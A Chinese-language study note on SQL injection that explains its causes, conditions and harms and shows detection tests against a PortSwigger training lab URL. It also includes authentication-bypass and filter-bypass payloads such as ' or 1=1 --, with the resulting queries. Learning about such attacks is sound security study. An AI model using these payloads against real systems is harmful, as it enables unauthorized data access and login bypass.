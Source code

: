 # SQL注入攻击笔记
[SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[SQL很好的一篇博客](https://www.cnblogs.com/Linkas/p/15123921.html#1%E4%BB%80%E4%B9%88%E6%98%AFsql%E6%B3%A8%E5%85%A5)


## 为什么会有SQL注入
* 外部输入的数据被当成代码拼接，导致恶意代码非预期的被执行
* SQL作为一种解释性语言，在运行时是由一个组件解释语言代码执行其中包含指令的语言
  * 而编译型语言是代码在生成时转换为机器指令，然后在运行时直接由使用该语言的计算机执行这些指令
  * 所以在解释型语言中，如果程序与用户进行交互，用户就可以构造特殊的输入来拼接到程序中执行，从而使得程序依据用户输入执行有可能存在恶意行为的代码

## 产生SQL注入需要的条件
* 输入的内容完全受用户控制，这样攻击者可以在WEB程序中事先定义好的SQL语句当中添加额外的SQL语句以实现非法的操作
* 输入的参数被带入到数据库中执行，就是传入的参数拼接到SQL语句当中，并且带入到数据库中进行查询

## SQL注入可能造成的危害
* interfere with the queries
* allow an attacker to view unauthorized data, which may belong to others
  * modify or delete unauthorized data, causing persistent changes of database
  * escalate SQL Injection attack to compromise the underlying server or other backend infrastructure, or perform a denial-of-service attack

## 如何发现SQL注入漏洞
1. https://0aba009004c4286dc0f83b1f004b00bd.web-security-academy.net/filter?category=Gifts
```HTML
这个链接后面有一个参数Gifts，明显是要执行SQL查询语句，类似于 select * from DB where category=Gifts
https://0aba009004c4286dc0f83b1f004b00bd.web-security-academy.net/filter?category=Gifts'
在后面加一个'，如果存在SQL注入，则一定报错
```
2. http://xxx/abc.php?id=2
```SQL
-- 对于这种参数为数字的URL地址，可使用 and 1=1 和 and 1=2来判断是否存在注入
-- 如果http://xxx/abc.php?id=2 and 1=1，运行正常，下一步
-- 如果http://xxx/abc.php?id=2 and 1=2,运行错误，则存在数字型注入
-- 以上等同于
select * from DB where id=2 and 1=1 --永真
select * from DB where id=2 and 1=2 
```
3. Submitting payloads designed to trigger time delays when executed within an SQL query, and looking for differences in the time taken to respond.<font color=red>时间注入--未完待续</font>
4. http://xxx/login.php?username=ytq
```SQL
-- 像这种登录当中的，可以使用绕过身份验证的方式，把后面注释掉
select * from DB where username='ytq' or 1=1-- ' and password='随意填'
```

## 常见的SQL注入手段
### 绕过身份认证
```SQL
-- ' or 1=1 --
select * from DB where username='ytq' or 1=1 --'and password='123' -- 注释掉password检查逻辑，使username逻辑永真
select * from DB where username='ytq' and password='123' or 1=1 --'' -- 使password检查永真
```
### 屏蔽掉多余的查询条件
```SQL
-- ' or 1=1 --
select * from DB where category='Gifts' or 1=1 --' and release=1
```
